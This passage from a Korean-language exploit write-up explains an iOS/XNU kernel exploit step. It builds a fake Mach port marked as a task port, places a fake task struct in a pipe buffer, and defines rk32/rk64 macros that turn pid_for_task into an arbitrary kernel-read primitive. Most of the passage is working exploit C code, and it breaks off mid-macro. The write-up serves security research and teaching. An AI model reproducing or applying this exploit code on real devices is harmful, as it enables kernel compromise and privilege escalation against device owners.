 `ip_bits` 필드를 해당값으로 지정한 이유는 우리의 `ipc_port`가 task를 나타내는 포트임을 표시하며, 이를 통해 `pid_for_task`와 같은 호출을 사용할 수 있게 해준다.

```c
    /* set up our fakeport for use later */
    kport_t *fakeport = NULL;
    fakeport = malloc(sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t));

    **fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;**
    fakeport->ip_references = 100;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
#define PIPEBUF_TASK_OFFSET 0x100
    **fakeport->ip_kobject = new_voucher.iv_port + PIPEBUF_TASK_OFFSET; /* place the task struct just after the kport */**

    memcpy(pipebuf, (void *)fakeport, sizeof(kport_t));
```

이제 마지막으로 커널 읽기를 위해 fake task 내용을 구성한다. 
`ref_count`값을 0xff로 만든다음,
`bsd_info` 주소를 제어하여 특정 커널 주소를 가리키게 만들어 커널 읽기 4바이트 매크로를 구성한다.

현재 읽힐 대상 주소인 `original_port_addr` 주소는 fake port인 `ipc_port` 구조체이며 `ip_object->io_bit`에 해당된다. 읽으면 `IO_BITS_ACTIVE | IKOT_VOUCHER` 값인 `0x80000025`이 된다.

```c
    INFO("starting kreads...\n");

    /* set up the fake task buf for use with the pid_for_task read primitive */
    int rfd = pipefds[2 * fakeport_pipe_index];
    read(rfd, pipebuf, pagesize);

    ktask_t *fake_task = (ktask_t *)((uint64_t)pipebuf + PIPEBUF_TASK_OFFSET);
    fake_task->ref_count = 0xff;
    
    int wfd = pipefds[2 * fakeport_pipe_index + 1];
    write(wfd, pipebuf, pagesize);

    #define off_task_bsd_info 0x380
    uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + off_task_bsd_info);

    #define off_proc_p_pid 0x60
    
    #define rk32(addr, value)\
    do {\
    int rfd = pipefds[2 * fakeport_pipe_index];\
    read(rfd, pipebuf, pagesize);\
    *read_addr_ptr = addr - off_proc_p_pid;\
    int wfd = pipefds[2 * fakeport_pipe_index + 1];\
    write(wfd, pipebuf, pagesize);\
    pid_for_task(the_one, (int *)&value);\
    } while (0)

        uint32_t read64_tmp;

    #define rk64(addr, value)\
    do {\
    rk32(addr + 0x4, read64_tmp);\
    rk32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32);\
```